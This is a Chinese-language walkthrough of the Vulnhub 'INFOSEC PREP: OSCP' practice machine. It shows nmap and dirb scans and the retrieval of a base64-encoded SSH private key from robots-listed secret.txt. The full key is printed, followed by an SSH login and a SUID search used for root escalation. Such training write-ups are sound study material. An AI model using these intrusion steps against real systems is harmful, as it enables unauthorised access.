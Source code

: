 ```yaml
---
title: Vulnhub-INFOSEC PREP: OSCP
date: 2024-01-24  
categories: [Training platform,Vulnhub]  
tags: [Vulnhub,web]  
permalink: "/Vulnhub/Infosec-prep-oscp.html"
---
```


# INFOSEC PREP: OSCP

![image-20240124101139259](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209530.png)

听说这个靶场对新手比较友好，今天来试试，吃一堑长一智，这次使用virtualbox进行打开：

![image-20240124101305989](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209531.png)

ok，一切正常。

## 踩点

打开看一下有没有啥提示：

![172.20.10.4_](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209532.png)

随便点点，瞅瞅！找到一个登录界面：

![image-20240124101715360](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209533.png)	

还有提示：

```text
Heya! Welcome to the hunt.
In order to enter the give away, you must obtain the root flag located in /root/. Once you’ve obtained the flag, message the TryHarder bot with the command !flag <insert flag>. It will then validate the flag for verification. Should it be incorrect, it will let you know. If it’s correct, you will be given a new role on the server where you can chat with others in a private channel. Once you’ve received the role you are entered into the give away!
You must be a member of the server in order to use the command above.
For those downloading this box off vulnhub at a later time, the command above will no longer be available.
Oh yea! Almost forgot the only user on this box is “oscp”.
A big thank you to Offensive Security for providing the voucher.
Happy Hunting
-FalconSpy & InfoSec Prep Discord Server
( https://discord.gg/RRgKaep )
```

可以看出来只有一个用户名为OSCP，先扫一下开放端口和目录吧。

## 扫描开放端口

```shell
nmap -Pn -sT -p- IP -o nmap.txt -T4
```

我这里觉得太慢直接使用`nmap IP`出现了报错：

> Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-23 21:54 EST
> Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
> Nmap done: 1 IP address (0 hosts up) scanned in 3.03 seconds
>
> Solution: use  '-Pn' . 

结果如下：

```text
Nmap scan report for 172.20.10.4
Host is up (0.0015s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
33060/tcp open  mysqlx
```

## 目录扫描

使用`dirb`尝试：

```shell
dirb http://172.20.10.4/
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209534.png" alt="image-20240124104654031" style="zoom:50%;" />

可以看到有`robots.txt`文件夹，看一下有没有啥惊喜：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209535.png" alt="image-20240124110548284" style="zoom:50%;" />

尝试访问一下，看看能不能访问：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209536.png" alt="image-20240124110631361" style="zoom:50%;" />

看到最后的`=`意识到这可能是`base64`编码，解码一下：

```shell
sudo curl -s 'http://172.20.10.4/secret.txt' | base64 --decode > 1.txt
```

这里如果出现问题就创建一个1.txt，给下权限再执行，获取ssh私钥，尝试连接：

```text
-----BEGIN OPENSSH PRIVATE KEY-----
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
8nfK2oDc6LfrDmjQAAAAlvc2NwQG9zY3A=
-----END OPENSSH PRIVATE KEY-----
```

直接ssh连接上去：

```shell
ssh -i id_rsa oscp@172.20.10.4
# ssh服务开了的
# id_rsa是1.txt改了个名字：mv 1.txt id_rsa
# 用户名是给了的oscp
┌──(kali㉿kali)-[~/nmap/OSCP]
└─$ ssh -i id_rsa oscp@172.20.10.4
The authenticity of host '172.20.10.4 (172.20.10.4)' can't be established.
ED25519 key fingerprint is SHA256:OORLHLygIlTRZ4nXi9nq+WIrJ26fv7tfgvVHm8FaAzE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.20.10.4' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
  System information as of Wed 24 Jan 2024 03:28:22 AM UTC
  System load:  0.08               Processes:             172
  Usage of /:   26.8% of 19.56GB   Users logged in:       0
  Memory usage: 58%                IPv4 address for eth0: 172.20.10.4
  Swap usage:   0%
0 updates can be installed immediately.
0 of these updates are security updates.
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Last login: Sat Jul 11 16:50:11 2020 from 192.168.128.1
```

## SUID提权

> SUID (Set UID)是Linux中的一种特殊权限,其功能为用户运行某个程序时，如果该程序有SUID权限，那么程序运行为进程时，进程的属主不是发起者，而是程序文件所属的属主。但是SUID权限的设置只针对二进制可执行文件,对于非可执行文件设置SUID没有任何意义.
>
>  在执行过程中，调用者会暂时获得该文件的所有者权限,且该权限只在程序执行的过程中有效. 通俗的来讲,假设我们现在有一个可执行文件`ls`,其属主为root,当我们通过非root用户登录时,如果`ls`设置了SUID权限,我们可在非root用户下运行该二进制可执行文件,在执行文件时,该进程的权限将为root权限.

先使用find命令查找SUID文件：

```bash
find / -perm -u=s -type f 2>/dev/null
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209538.png" alt="image-20240124114110737" style="zoom:50%;" />

使用bash进行提权：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209539.png" alt="image-20240124115118466" style="zoom:50%;" />

获取flag。